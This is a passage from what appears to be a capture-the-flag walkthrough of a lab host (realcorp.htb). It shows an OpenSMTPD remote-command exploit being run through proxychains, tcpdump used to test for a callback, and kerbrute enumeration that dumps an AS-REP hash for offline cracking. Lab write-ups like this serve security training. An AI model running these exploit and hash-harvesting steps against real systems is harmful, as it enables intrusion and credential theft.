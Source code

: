```bash
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```
All we need is to provide the target IP, target Port and the command to execute, so let's do it right away:
```bash
proxychains -q python3 47984.py 10.241.251.113 25 whoami
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
It seems that is not retrieving the output of such command, let's try by running a command that will send a response to our machine, a ping will do the trick:
```bash
tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
No response has been received, this means that our machine is unreachable from that machine or that something needs to be fixed on such exploit.However RCE is not possible at this point.
According to the script, it needs a user to test the exploit remember that we have a user (j.nakazawa@realcorp.htb) so let's figure out if this user is valid with kerbrute: ^3451a6
```bash
proxychains -q kerbrute userenum -d realcorp.htb --dc 10.10.10.224 users

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/23/23 - Ronnie Flathers @ropnop

2023/01/23 13:33:17 >  Using KDC(s):
2023/01/23 13:33:17 >   10.10.10.224:88

2023/01/23 13:33:17 >  [+] j.nakazawa has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$j.nakazawa@REALCORP.HTB:63abc6b17482e9eba446456fbc7df8b1$0d47f8d1d1363460bda6e52f810b3e8b8d12c1395a233d467418a243b32b9c7df3693925e0fa4d9d87c316d4460a44a18338691baa0f28a8dcd4ab6ad118b4a269ca6f37d684594fd371d0d87a54136610434478ff3a9f10a473d9a450e1dcaf8c00012ed9607b3cc661793864f262160633212c51169a97e7bb2a01cb2f0ac6cd68414791f6bc5e37de5bc4e7c13b9f803108d521e5fadaecefad0c39a0d7014bc70d81ae09322900a726e6de2c00dda551cd03963b3ec8d2a1a0d9e816891af11c656179c6ea                                                                                                                                                                                  
2023/01/23 13:33:17 >  [+] VALID USERNAME:       j.nakazawa@realcorp.htb
```
Once validated we then can modify the code of the exploit and try to run it again:
```bash
tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
c13:26:13.906119 IP realcorp.htb > 10.10.14.2: ICMP host realcorp.htb unreachable - admin prohibited filter, length 68
13:26:13.985802 IP realcorp.htb > 10.10.14.2: ICMP host realcorp.htb unreachable - admin prohibited filter, length 68
13:26:19.534231 IP realcorp.htb > 10.10.14.2: ICMP host realcorp.htb unreachable - admin prohibited filter, length 68
13:26:19.615098 IP realcorp.htb > 10.10.14.2: ICMP host realcorp.htb unreachable - admin prohibited filter, length 68
13:33:14.285381 IP 10.10.14.1 > 10.10.14.2: ICMP host 10.10.10.204 unreachable, length 185
```